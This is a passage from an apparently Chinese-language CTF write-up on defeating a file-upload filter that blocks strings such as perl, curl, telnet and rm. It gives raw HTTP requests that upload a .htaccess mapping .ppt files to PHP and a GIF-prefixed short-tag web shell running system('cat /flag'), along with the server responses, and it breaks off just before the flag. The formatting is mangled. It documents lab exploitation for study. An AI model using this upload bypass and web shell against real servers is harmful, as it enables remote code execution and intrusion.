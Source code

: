 ###### 大概的意思就是过滤了这些`perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet`

###### 字符，而且我们上传的图片不能解析，因此我们可以上传一个`.htaccess`，添加其他后缀名解析为`.php`文件。如：`AddType application/x-httpd-php shell.ppt`。不过由于`php`字符串的过滤我们上传的文件不能包含`php`，因此我们上传的`.httacess`文件中的`php`可以用换行符绕过，对于上传了的`shell.ppt`文件，如果该php开启了短标签我们可以用短标签`=`来代替`<?php` ，下面我们就来尝试一下：

```
POST /index.php HTTP/1.1Host: 129.204.21.115User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: multipart/form-data; boundary=---------------------------279095805311502314111982965121Content-Length: 384Origin: http://129.204.21.115Connection: closeReferer: http://129.204.21.115/index.phpUpgrade-Insecure-Requests: 1-----------------------------279095805311502314111982965121Content-Disposition: form-data; name="fileUpload"; filename=".htaccess"Content-Type: image/jpegAddType application/x-httpd-p\hp .ppt-----------------------------279095805311502314111982965121Content-Disposition: form-data; name="upload"submit-----------------------------279095805311502314111982965121--
```

###### 结果如下：

```
HTTP/1.1 200 OKDate: Mon, 04 May 2020 08:45:52 GMTServer: Apache/2.4.6 (CentOS) PHP/5.4.16X-Powered-By: PHP/5.4.16Content-Length: 1027Connection: closeContent-Type: text/html; charset=UTF-8        Cheek in 
```

# ```UPLOADS```

```**`**Your files :.htaccess**``**Your dir : uploads/001149b089f853aad2bda9214b94fb21**`**``` **```###### 上传`shell.ppt`:

```
POST /index.php HTTP/1.1Host: 129.204.21.115User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: multipart/form-data; boundary=---------------------------279095805311502314111982965121Content-Length: 376Origin: http://129.204.21.115Connection: closeReferer: http://129.204.21.115/index.phpUpgrade-Insecure-Requests: 1-----------------------------279095805311502314111982965121Content-Disposition: form-data; name="fileUpload"; filename="shell.ppt"Content-Type: image/jpegGIF89a=system('cat /flag');-----------------------------279095805311502314111982965121Content-Disposition: form-data; name="upload"submit-----------------------------279095805311502314111982965121--
```

###### 结果如下：

###### 

```
HTTP/1.1 200 OKDate: Mon, 04 May 2020 08:46:10 GMTServer: Apache/2.4.6 (CentOS) PHP/5.4.16X-Powered-By: PHP/5.4.16Content-Length: 1027Connection: closeContent-Type: text/html; charset=UTF-8        Cheek in 
```

# ```UPLOADS```

```**`**Your files :shell.ppt**``**Your dir : uploads/001149b089f853aad2bda9214b94fb21**`**``` **```###### 直接访问

###### `http://129.204.21.115/uploads/001149b089f853aad2bda9214b94fb21/shell.ppt`

###### 得到flag：

```